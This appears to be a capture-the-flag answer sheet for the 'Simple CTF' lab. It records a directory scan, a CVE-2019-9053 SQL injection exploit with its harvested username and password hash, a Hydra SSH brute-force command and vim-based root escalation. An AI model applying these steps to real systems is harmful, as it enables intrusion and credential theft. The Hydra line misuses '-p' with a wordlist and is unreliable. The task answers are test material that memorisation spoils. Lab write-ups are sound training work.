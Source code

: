 # Machine NAME : Simple CTF
# Machine IP   : 10.10.126.194

***TASK 1 : How many services are running under port 1000?***
```
: 2
: (Reference) Gathering/SimpleCTF_Scanning.txt
```

***TASK 2 : What is running on the higher port?***
```
ssh
```
***TASK 3 : What's the CVE you're using against the application?***
```
: CVE-2019-9053 

 SITE MAP SCANING : gobuster (Reference file : Gathering/SimpleCTF_gobuster.txt)
 1.EXPLOIT-DB LINK : https://www.exploit-db.com/exploits/46635 
 2.convert python2 to python3 command : 2to3 -w {file_name} 
 3.command :./46635.py -u http://{ip}/{dir}/ 
[+] Salt for password found: 1dac0d92e9fa6bb2 
[+] Username found: mitch 
[+] Email found: admin3@ 
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96 
```

***TASK 4: To what kind of vulnerability is the application vulnerable?***
```
sqli 
```

***TASK 5: What's the password?*** 
```
password is secret 
PASSWORD BRUTE FORCING (Hydra) 
hydra -l mitch -p rockyou.txt ssh://{ip}/
```

***TASK6 : Where can you login with the details obtained?***
```
ssh
```

***TASK 7 : What's the user flag?*** 
```
Do it 
```

***TASK 8: Is there any other user in the home directory? What's its name?***
```
sunbath
```

***TASK 9 :	What can you leverage to spawn a privileged shell?*** 
```
vim
```

***TASK 10 : What's the root flag?***
```
command : sudo -l 
command : vim privilge escalate!
```